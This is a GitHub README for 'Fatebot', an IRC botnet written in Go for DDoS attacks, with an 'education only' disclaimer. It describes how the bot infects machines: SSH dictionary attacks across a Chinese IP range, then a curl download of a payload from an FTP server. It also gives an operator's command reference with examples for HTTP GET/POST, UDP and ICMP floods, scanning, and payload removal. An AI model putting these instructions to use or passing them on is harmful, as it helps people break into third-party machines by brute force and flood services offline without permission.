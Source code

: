 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot v0.2a
This is my first IRC botnet for launch ddos attack, Write on Go language. For education purpose only. Please test it in your lab. And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="media/drfate.jpg" alt="Dr Fate">

# Infect
The infect function of this botnet is scanning by SSH port<strong>(default as 22)</strong> and login by dictionary attack.
like username "admin" and password "admin". <strong>(Scan by range of CHN network. You can add more or change it, if you want.)</strong>
This botnet use "curl" to get payload from FTP server, so... please prepair your FTP server first, It very important for infect process.

<strong>I scan on my private netowrk in SSH range, And comment a function of running session.(That why bot is not join The server.)</strong>
<img src="media/scanprocess.png" alt="SSH scan">


# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood. Mainly DDoS function is on <strong>The Application layer</strong>.

<img src="media/posttraffic.png" alt="http post flood, dos example">

# Update Lists
<p><strong>Fate v0.1</strong> = Fatebot open release.</p>
<p><strong>Fate v0.2</strong> = Update get bot system information function and Add tutorial in main and scan file.</p>
<p><strong>Fate v0.2a</strong> = Cut private scanning.</p>

# IRC Commands
<ul>
  <li><strong>?get [url]</li></strong>
    <ul>
      <li>?get http://target.com</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?post [url]</li></strong>
    <ul>
      <li>?post http://target.com</li>
      - Flood HTTP post request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. 
      <p>- Min and Max of Buffer is 1 - 700bytes.</p>
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP with large packets to target.
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range on SSH port and get payload with curl.
    </ul>
</ul>

<ul>
  <li><strong>?info</li></strong>
    <ul>
      - Get bot system information.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Remove payload on bot machine and left the server.
    </ul>
</ul>

<ul>
  <li><strong>?stop.ddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stop.scan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
